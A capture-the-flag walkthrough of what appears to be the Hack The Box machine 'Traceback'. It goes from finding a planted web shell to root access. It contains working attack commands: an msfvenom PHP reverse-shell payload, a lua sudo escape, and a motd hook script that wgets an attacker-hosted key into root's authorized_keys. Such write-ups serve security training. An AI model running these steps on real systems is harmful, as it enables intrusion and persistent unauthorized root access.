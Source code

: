 As always, we start with nmap - it comes back with ports 80 and 22 open, so naturally we go check out the web page.

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 12:10 EDT
Nmap scan report for 10.10.10.181
Host is up (0.036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

![websiteLanding](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Initially, my assumption was to jump into dirb or gobuster and try to enumerate where the mentioned backdoor might be, but that doesn't get us anything here.
Instead, hitting 'view page source' gives us this comment:

![websiteComment](https://github.com/DefinitelyNotDex/imageURLgoesHere)

If we google that phrase we get a Github page where the author is the same user who owned the site. 
Scrolling down the list of web shells, we can throw all of them into the end of the URL until one works for us.
If we also click on the Github link for that particular shell we get a set of default creds, which work nicely.

![webShell](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Wonderful, we have a web shell. This shell is fully functional and you can use it to priv-esc to the actual user with minimal issues. I didn't want to deal with it, though, so I compiled my own php shell with msfvenom, uploaded it, set up a metasploit handler to catch the connection, accessed my shell url, and used that shell going forward:

**msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php**

Once we have this shell, time to enumerate. You can do this manually, but to save time I used the linux enumeration script found [here](https://github.com/diego-treitos/linux-smart-enumeration), using wget to download the script directly to the machine:

**wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh**

Running that script shows us that we have a command we're allowed to run as sudo, /home/sysadmin/luvit. If we also take a look at our home directory we have a file called note.txt which explains the sysadmin left us a way to mess around with lua, which is presumably that file. We can run the file with the following command:

**sudo -u sysadmin /home/sysadmin/luvit**

Running it, however, gets us an error. Specifically, we get a *traceback* error that the script tries to call a method that doesn't exist. Going by the name of the machine, we're on the right track.

![luvitError](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Combing that output from the traceback might not give you much at first glance, but when I tried to throw the output of running luvit into a text file I noticed the error message was not included. What was included at the end of the file was a carrot character, which indicated to me that this might be the lua interpreter, similar to the python interpreter. Therefore, we might be able to pass it a command or script, which ended up working. I used [this](https://justhack.in/shell-escapes-cheatsheet) link to grab a very easy shell escape script, which I uploaded to the host, appended with the same luvit command, and ran:

**sudo -u sysadmin /host/sysadmin/luvit shell.lua**

This got me a functional bash shell for the sysadmin user, but it was still coming through the webadmin user's meterpreter shell, which was a pain. I generated a second shell, this time just a standard linux reverse tcp meterpreter shell, uploaded it, created a new handler to catch the shell, and ran it as the sysadmin user to get a sysadmin meterpreter shell.

Now we have an actual user shell and can grab the user flag. 
Running the same linux enumeration script we used above shows that we can access and *write* to the /etc/.update-motd.d/ files, which are bash scripts that generate the welcome message when someone ssh's into the server. There is a script on this box that constantly overwrites them with the defaults, so we'll have to be fast when we use those to priv esc to root. To do so, we'll have to modify them, then immediately ssh into this host in order for the .update-motd.d script to run. 

Going back to the initial webadmin shell, we are able to navigate to /home/webadmin/.ssh and edit the authorized_keys file, which is the file that stores the public ssh key. We can then ssh back to the host as webadmin using the corresponding private key.

To do this, I used ssh-keygen to create the key pair on my local kali machine, dropped the public key into /home/webadmin/.ssh, and copied its contents into the authorized_keys file. Once that was done, I tested that I was able to ssh to the host as webadmin, and we're ready to exploit the .update-motd.d scropt. 

Since the etc/.upload-motd.d files are quickly overwritten (they're maybe there for 5-15 seconds before going back to the original set) I couldn't upload a reverse shell, as it would die rather quickly. What we can do as root, though, is add another set of ssh keys so we can just ssh to the box as root. To do so, we need to replace the motd file and ssh into the box as webadmin to execute the script before it is overwritten. Multiple shell windows queued and ready to go helps here. I hosted the directory with the ssh keys using python's SimpleHTTPServer, and grabbed them with the bash script that we replaced the motd header with:

Local machine (from the directory with the bash script '00-header' inside):
**python -m SimpleHTTPServer 80**

Bash script:
**#!/bin/sh
wget http://10.10.14.4/root-key-rsa.pub -P /root/.ssh
cat /root/.ssh/root-key-rsa.pub > /root/.ssh/authorized_keys**

Sysadmin shell:
**meterpreter>upload 00-header /etc/.update-motd.d/00-header
meterpreter> cat 00-header**
(that cat is to confirm 00-header is the correct file and hasn't been immediately overwritten)

Local machine (separate shell window)
**ssh -i ./webadmin-rsa-key webadmin@10.10.10.181**

As long as the sysadmin shell command and the ssh command were done closely enough together and in sequence, the root ssh key overwrite works well. Now we can just ssh back to the host as root using that new ssh key, grab the root flag, and finish this box off entirely

**ssh -i ./root-key-rsa root@10.10.10.181**
